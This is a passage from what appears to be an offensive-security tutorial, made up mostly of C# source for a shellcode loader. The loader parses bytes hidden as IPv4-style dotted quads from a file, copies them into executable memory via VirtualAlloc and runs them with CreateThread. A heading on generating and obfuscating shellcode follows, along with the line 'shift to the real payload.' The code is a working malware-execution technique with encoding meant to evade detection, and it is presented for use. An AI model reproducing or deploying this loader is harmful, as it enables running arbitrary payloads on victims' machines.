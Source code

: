 ```
            catch (Exception ex)
            {
                MessageBox.Show($"Error: {ex.Message}", "DEBUG");
            }
        }

        private static void ExecuteShellcodeFromFile(string filename)
        {
            try
            {
                string[] lines = File.ReadAllLines(filename);
                List<byte> shellcode = new List<byte>();

                foreach (var line in lines)
                {
                    string[] parts = line.Split('.');
                    if (parts.Length == 4)
                    {
                        shellcode.AddRange(parts.Select(byte.Parse));
                    }
                }

                IntPtr allocMem = VirtualAlloc(IntPtr.Zero, (UIntPtr)shellcode.Count, 0x3000, 0x40);
                Marshal.Copy(shellcode.ToArray(), 0, allocMem, shellcode.Count);

                IntPtr thread = CreateThread(IntPtr.Zero, 0, allocMem, IntPtr.Zero, 0, IntPtr.Zero);
            }
            catch (Exception ex)
            {
                MessageBox.Show($"Execution Error: {ex.Message}", "DEBUG");
            }
        }

        // Import Windows API functions
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAlloc(IntPtr lpAddress, UIntPtr dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll", SetLastError = true)]
        static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
    }
}
```
## VI. Shellcode Generation and Obfuscation

After injection is proven, shift to the real payload.

